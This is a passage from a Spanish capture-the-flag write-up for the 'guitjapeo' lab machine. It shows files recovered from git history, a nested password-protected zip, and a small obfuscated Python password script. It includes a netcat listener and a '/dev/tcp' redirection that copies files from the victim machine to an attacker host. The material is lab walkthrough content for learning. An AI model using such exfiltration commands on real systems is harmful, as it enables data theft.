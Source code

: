 Encontramos dos ficheros `archivo.zip` y `password.txt` que no están en la carpeta de la aplicación, los intentamos recuperar.

```bash
lenam@guitjapeo:~/.local/bin/web$ git checkout ecdef85 -- archivo.zip password.txt
lenam@guitjapeo:~/.local/bin/web$ ls -l
total 192
-rw-r--r--   1 lenam lenam   2009 Sep 20 23:50 administrador.js
-rw-r--r--   1 lenam lenam  43766 Sep 21 00:38 archivo.zip
-rw-r--r--   1 lenam lenam   5146 Sep 20 21:06 index.js
drwx------   8 lenam lenam   4096 Sep 21 00:38 isolated-data
drwxr-xr-x 224 lenam lenam  12288 Sep 20 19:38 node_modules
-rw-r--r--   1 lenam lenam    314 Sep 20 18:56 package.json
-rw-r--r--   1 lenam lenam 103530 Sep 20 19:38 package-lock.json
-rw-r--r--   1 lenam lenam    157 Sep 21 00:38 password.txt
drwxr-xr-x   4 lenam lenam   4096 Sep 20 18:56 public
drwxr-xr-x   2 lenam lenam   4096 Sep 20 18:56 views
lenam@guitjapeo:~/.local/bin/web$ cat password.txt 
# Este script está escrito en Python
def obtener_contraseña():
    return ''.join([chr(ord(c) + 1) for c in '  ..lmruuuC^'])

print(obtener_contraseña())
```

### Fichero ZIP

Nos traemos a nuestra maquina atacante los ficheros encontrados en el historial de git `archivo.zip` y `password.txt`.

En nuestra maquina atacante

```bash
nc -lvnp 2121 > archivo.zip
```

y en la maquina victima dentro de la carpeta donde están los ficheros  `archivo.zip` y `password.txt`.

```bash
cat archivo.zip > /dev/tcp/192.168.1.116/2121
```

Realizamos lo mismo para el fichero `password.txt`.

El fichero password.txt contiene una programación en python que devuelve una contraseña.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python password.txt    
!!//mnsvvvD_
```

Con esta contraseña podemos descomprimir el fichero ZIP que esta protegido con contraseña, dentro de este fichero encontramos otros 2 ficheros `archivo.zip` y `password.txt`.

El nuevo fichero ZIP sigue estando protegido por contraseña y en el fichero password.txt en esta ocasión hay una programación en ruby.
